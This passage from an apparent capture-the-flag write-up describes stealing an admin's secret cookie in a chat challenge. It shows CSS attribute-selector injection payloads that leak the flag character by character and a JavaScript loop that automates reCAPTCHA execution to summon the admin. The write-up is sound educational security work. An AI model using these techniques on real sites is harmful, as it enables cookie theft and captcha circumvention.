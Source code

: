 This will ban the user but simultaneously make the admin leak his cookie to the HTML DOM. The resulting HTML will look similar to this:

```
<span data-secret="CTF{SOME_SECRET_FLAG_VALUE}">*****</span>
```

Now it is time for extracting it.

## Read the cookie from the HTML DOM and send it as a chat message
Now having CSS injection and having a the secret cookie value in an html element, we are able to leak the secret using CSS attribute selectors. That is a CSS selector of ```span[data-secret^=A]``` will match any span with a ```data-secret``` attribute beginning with the letter A. This can be used to load an url if found:
```css
span[data-secret^=A] {
    background: url(send?name=leaker&msg=A)
}
span[data-secret^=B] {
    background: url(send?name=leaker&msg=B)
}
span[data-secret^=C] {
    background: url(send?name=leaker&msg=C)
}
...
```
Depending on which message is printed to our chat, we can determine one character of the flag at a time. This only requires, that it is the admin who has the above CSS injected. Thus, the admin needs to be present during the whole attack.

## Beating the Google Captcha and ensuring the admin is always present
This step could be done by manually posting the command ```/report``` in the chat-window, but it is of course much more fun to automate. As this is a simple captcha, we can simply point our browser to the chatroom and execute the following javascript in the Developer Console:
```javascript
setInterval(() => {
    grecaptcha
        .execute(recaptcha_id, {action: 'report'})
        .then((token) => send('/report ' + token));
}, 10000)
```

Now an admin will join the room every 10th second. No need for manual hard work. 

## Exploit chain
Now we assemple the whole thing into our exploit. To sum up, we do the following:

1. Make the admin join the room using ```/report```
2. Join the chat with a user with our payload as the username
3. Leak the admin flag-cookie to the HTML DOM, by making the admin ban our user
4. Join with a new user, wich has the CSS injection to leak one character of our flag at a time, as his name
5. Ban the new CSS leaking user 
6. Repeat the steps until we have the whole flag
